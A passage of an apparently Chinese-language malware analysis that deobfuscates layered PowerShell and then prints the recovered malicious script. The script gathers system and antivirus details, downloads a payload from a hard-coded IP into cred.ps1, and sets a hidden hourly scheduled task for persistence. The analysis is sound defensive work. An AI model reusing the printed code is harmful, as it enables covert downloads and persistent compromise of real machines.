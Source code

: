 ### 解密第二层

很明显，我们看到有`Invoke-Expression`，直接将`Invoke-Expression`改为`Write-Host`进行调试。

![](https://images.payloads.online/4df4fdfa-4f5f-11ec-9352-00d861bf4abb.png)


### 解密第三层

现在获得的代码可读性变得非常低了，但是还是有一定规律可循。

在第83行，有一个大小写混合的`Invoke-Expression`：

![](https://images.payloads.online/4e3585f0-4f5f-11ec-aae2-00d861bf4abb.png)

并且`Invoke-Expression`做左边还有一个管道符，直接将代码改为`| Out-File .\tmp.log` ，把结果输出到tmp.log文件中。

### 解密第四层

![](https://images.payloads.online/4e75dcae-4f5f-11ec-b69a-00d861bf4abb.png)

第四次好像混淆的更加厉害来，但是不影响我们的分析，先看首行：

```
 . ( $EnV:CoMsPec[4,26,25]-JoIN'')((('[string]3CHav = U'+'ABUAB[string]....
```

其中它是以`. (表达式)(表达式)`来执行的，于是我想到了另外一种函数调用的可能：

```
PS C:\Users\Rvn0xsy> . Write-Host "Rvn0xsy"
Rvn0xsy
PS C:\Users\Rvn0xsy>
```

这样也能执行，所以我判断` . ( $EnV:CoMsPec[4,26,25]-JoIN'')`就是`iex`或者`Invoke-Expression`，我将` . ( $EnV:CoMsPec[4,26,25]-JoIN'')`改为`Write-Host`直接执行：

![](https://images.payloads.online/4eb87816-4f5f-11ec-a2c3-00d861bf4abb.png)

最终获得了未混淆的代码。

然后，为了验证我的猜想，我把代码进行更改，获得了`Iex`：

![](https://images.payloads.online/4ef7f8c4-4f5f-11ec-8df4-00d861bf4abb.png)

` . ( $EnV:CoMsPec[4,26,25]-JoIN'')` = `Iex`

## 0x03 行为分析

```
[string]$av = ""[string]$avs = ""[string]$mac = (getmac /FO CSV|Select-Object -Skip 1 -first 1| ConvertFrom-Csv -Header MAC|select-object -expand MAC)$avs = (Get-WmiObject -Namesp
ace root\SecurityCenter2 -Class AntiVirusProduct).displayNameif($avs.GetType().name.IndexOf('Object') -gt -1){for($v = 0; $v -lt $avs.Count; $v++){$av += $avs[$v] + "|"}}else{$av 
= $avs}try{if((Get-Service zhudongfangyu | Sort -Property Status).Status -eq "Running"){$av += 'ZDFY'}}catch{}#[System.Threading.Thread]::Sleep((Get-Random -Minimum 10000 -Maximum
 100000))$path = "$env:temp\\ppp.log"[string]$flag = test-path $path$key = "&mac="+$mac+"&av="+$av+"&ver="+(Get-WmiObject -Class Win32_OperatingSystem).version+"&bit="+(Get-WmiObj
ect Win32_OperatingSystem).OSArchitecture + "&flag2=" + $flag + "&domain=" + (Get-WmiObject win32_computersystem).Domain + "&user=" + $env:USERNAMEtry{$file = "$env:appdata\\Micro
soft\\cred.ps1"$size = (Get-ChildItem $file -recurse | Measure-Object -property length -sum).sum$file2 = "$env:ALLUSERSPROFILE\\Microsoft\\cred.ps1"$size2 = (Get-ChildItem $file2 
-recurse | Measure-Object -property length -sum).sum        if(($size -ne 50731) -and ($size2 -ne 50731)){try{$url = 'http://172.104.177.202/new.dat?xl' + $key(New-Object System.N
et.WebClient).DownloadFile($url,"$file")}catch{}&cmd.exe /c schtasks /create /sc MINUTE /mo 60 /st 07:00:00 /tn Credentials /tr "powershell -nop -w hidden -ep bypass -f %appdata%\
```